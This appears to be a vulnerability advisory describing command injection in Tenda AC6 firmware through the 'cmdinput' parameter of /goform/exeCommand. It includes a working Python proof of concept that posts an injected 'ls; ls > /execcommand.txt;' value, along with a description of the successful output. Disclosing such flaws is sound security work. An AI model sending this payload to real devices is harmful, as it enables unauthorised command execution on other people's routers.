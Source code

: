 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Command Injection** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject arbitrary commands into the system. This vulnerability allows attackers to execute arbitrary system commands, potentially gaining unauthorized access or causing other system misconfigurations.

The issue arises from improper sanitization of user-supplied input, where an attacker can exploit the **cmdinput** parameter to inject and execute arbitrary commands. For example, an attacker could inject commands like `ls` to list directories, or use other commands to read sensitive files or execute malicious actions remotely. 
![Root Cause of Command Injection Vulnerability](1.png)

## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Command Injection
- Unauthorized access to the system
- Potential for information disclosure or system compromise

![PoC](2.png)
## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```

PoC Run Results:

After sending the crafted request with the injected command (ls), the command is successfully executed on the device. The response returned includes the output of the executed command. Specifically, the file system's directory listing is displayed, showing the contents of the device's directories.

Command Executed: ls (list directories)

Output: The directory contents are printed as expected, confirming that the command injection was successful and arbitrary system commands can be executed remotely.

This indicates that the device is vulnerable to command injection attacks, as the attacker was able to execute a basic ls command remotely and retrieve the file system's contents.

![PoC Execution Result](3.png)
